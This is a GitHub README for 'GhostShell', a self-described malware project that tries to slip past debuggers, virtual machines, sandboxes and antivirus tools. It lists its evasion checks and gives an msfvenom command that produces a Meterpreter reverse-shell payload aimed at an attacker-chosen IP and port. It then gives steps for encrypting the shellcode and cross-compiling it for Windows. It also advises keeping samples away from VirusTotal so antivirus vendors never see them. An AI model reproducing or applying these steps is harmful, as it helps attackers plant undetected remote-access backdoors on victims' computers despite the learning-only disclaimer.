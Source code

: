 <div align="center">
  <h1 align="center"> GhostShell </h1>
  <p align="center"> In this malware, are used some techniques to try bypass the AVs, VMs, and Sandboxes, with only porpuse to learning more. I'm not responsible for your actions. </p>


  <p align="center"> 
    <img alt="license" src="https://img.shields.io/github/license/ReddyyZ/GhostShell"/>
    <img alt="last-commit" src="https://img.shields.io/github/last-commit/ReddyyZ/GhostShell"/>
    <img alt="made-by" src="https://img.shields.io/badge/made%20by-ReddyyZ-red"/>
    <img alt="size" src="https://img.shields.io/github/repo-size/ReddyyZ/GhostShell"/>
    <img alt="binary-size" src="https://img.shields.io/badge/binary%20size-46%2C8%20KB-blue"/>
  </p>
  <p align="center">
    <a href="https://github.com/ReddyyZ"> <img alt="followers" src="https://img.shields.io/github/followers/ReddyyZ?style=social"/> </a>
    <a href="https://github.com/ReddyyZ/GhostShell/stargazers"><img alt="stars" src="https://img.shields.io/github/stars/ReddyyZ/GhostShell?style=social"/></a>
    <a href="https://github.com/ReddyyZ/GhostShell/network/members"><img alt="forks" src="https://img.shields.io/github/forks/ReddyyZ/GhostShell?style=social"/> </a>
    <a href="https://github.com/ReddyyZ/GhostShell/watchers"><img alt="watchers" src="https://img.shields.io/github/watchers/ReddyyZ/GhostShell?style=social"/> </a>
  </p>
  
</div>

<p align="center">
  <a href="#bomb-bypass-techniques"> Bypass Techniques </a> |
  <a href="#radioactive-generating-the-shellcode"> Generating the Shellcode </a> |
  <a href="#computer-how-to-compile-for-windows-on-linux"> How to compile for Windows on Linux </a> |
  <a href="#book-credits"> Credits </a> |
  <a href="#memo-license"> License </a>
</p>


- ## :warning: Atention!!!
**To check if the antivirus is detecting the malware, NEVER send it to the virustotal, IT WILL BE SENT TO THE ANTIVIRUS COMPANIES AND WILL BE BROKEN, to analyze, send it to https://www.hybrid-analysis.com/ and remember to check the option "Do not send my sample to non-affiliated third parties", as in the example below.**




- ## :bomb: Bypass Techniques

### **Anti-Debugger**

To try bypass the Debuggers, I'm using the "IsDebuggerPresent()" of "Windows.h" librarie to checks if a debugger is running.

### **Anti-VM / Anti-Sandbox / Anti-AV**

- **Enumerate Process Function**

  Enumerates all process running on the system, and compares to the process in the black-list, if found a process and this is equal to any process in the black-list returns -1 (identified).

- **Sleep Acceleration Check Function**

  First, gets the current time, and sleeps 2 minutes, then, gets the time again, and compare, if the difference is less than 2, returns -1 (identified).

- **Mac Address Check Function**

  Gets the system mac address and compare to the macs, in the black-list, if the system mac address is equal to any mac in the black-list returns -1 (identified).


- ## :radioactive: Generating the Shellcode
![Generating](/assets/generating%20shellcode.gif)

To generate the shellcode type in the terminal: ``` msfvenom -p windows/meterpreter/reverse_shell lhost=(IP) lport=(PORT) -f c ```, copy the shellcode generated and encrypt it.                                                                                                 

To encrypt shellcode use the encrypt_shellcode script.                                                                                   
On linux type: ``` ./encrypt_shellcode e "(KEY, ex: "\xda\xe6\x1d\x5c\x9v\x8d") "(shellcode)"" ```                                      
On windows type: ``` encrypt_shellcode.exe e "(KEY, ex: "\xda\xe6\x1d\x5c\x9v\x8d") "(YOUR_SHELLCODE)"" ```



- ## :computer: How to compile for Windows on Linux

To compile for Windows on Linux, first, install mingw-w64: ``` sudo apt-get install mingw-w64 ```, then, to compile for 32 bits: ``` i686-w64-mingw32-gcc -o main.exe main.c -l psapi -static ```, and to 64 bits: ``` x86_64-w64-mingw32 -o main.exe main.c -l psapi -static ```

-  ## :book: Credits

Credits for https://github.com/rastating, the encrypt_shellcode is based on a post of your github.io: https://rastating.github.io/creating-a-shellcode-crypter/



- ## :memo: License

This project is under MIT license. See at here [LICENSE](/LICENSE.md) for more informations.


> It is not ready yet!

